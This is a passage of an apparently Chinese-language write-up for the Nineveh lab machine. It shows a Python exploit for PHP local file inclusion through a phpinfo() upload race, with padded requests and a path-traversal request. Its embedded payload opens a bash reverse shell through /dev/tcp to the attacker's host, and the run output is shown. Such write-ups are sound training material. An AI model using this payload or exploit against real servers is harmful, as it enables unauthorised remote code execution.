 
需要指向有效的会话。如果我从头开始重写它，我会让脚本登录并以这种方式获取会话ID，但是这里发生了太多的事情，我现在不想搞砸。`PHPSESSID`

现在，我将更改顶部函数中的一堆内容：`setup`

    def setup(host, port):
        TAG="Security Test"
        PAYLOAD="""%s\r <?php system("bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'");?>\r""" % (TAG, local_ip, local_port)
        REQ1_DATA="""-----------------------------7dbff1ded0714\r
    Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
    Content-Type: text/plain\r
    \r
    %s
    -----------------------------7dbff1ded0714--\r""" % PAYLOAD
        padding="A" * 5000
        REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
    Cookie: PHPSESS" + phpsessid + """; othercookie="""+padding+"""\r
    HTTP_ACCEPT: """ + padding + """\r
    HTTP_USER_AGENT: """+padding+"""\r
    HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
    HTTP_PRAGMA: """+padding+"""\r
    Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
    Content-Length: %s\r
    Host: %s\r
    \r
    %s""" %(len(REQ1_DATA),host,REQ1_DATA)
        #modify this to suit the LFI script   
        LFIREQ="""GET /department/manage.php?notes=/ninevehNotes/..%s HTTP/1.1\r
    User-Agent: Mozilla/4.0\r
    Proxy-Connection: Keep-Alive\r
    Cookie: PHPSESS" + phpsessid + """\r
    Host: %s\r
    \r
    \r
    """
        return (REQ1, TAG, LFIREQ)
    

我做了以下更改：

*   更改了有效负载，以便它将反向外壳返回到上面指定的 ip 和端口。
*   将 POST 路径更改为与尼尼微匹配，而不是匹配。`REQ1``/info.php``/phpinfo.php`
*   已将开机自检路径更改为尼尼微 LFI。`LFIREQ`
*   向 添加了一个饼干，以便我可以访问 LFI。`PHPSESSID``LFIREQ`

我必须更改的另一件事是代码中的两个位置，它在响应中查找。PHP 现在 HTML 将其编码为 ，所以我需要修复它。有趣的是，在论文中，它也有编码版本，所以它可能只是脚本中的错误。`[tmp_name] =>``[tmp_name] =&gt;`

### 壳

完成这些更改后，我可以在侦听器等待的情况下运行脚本：`nc`

    root@kali# python phpinfolfi.py 10.10.10.43 80 100
    LFI With PHPInfo()
    -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    Getting initial offset... found [tmp_name] at 125163
    Spawning worker pool (100)...
     101 /  1000
    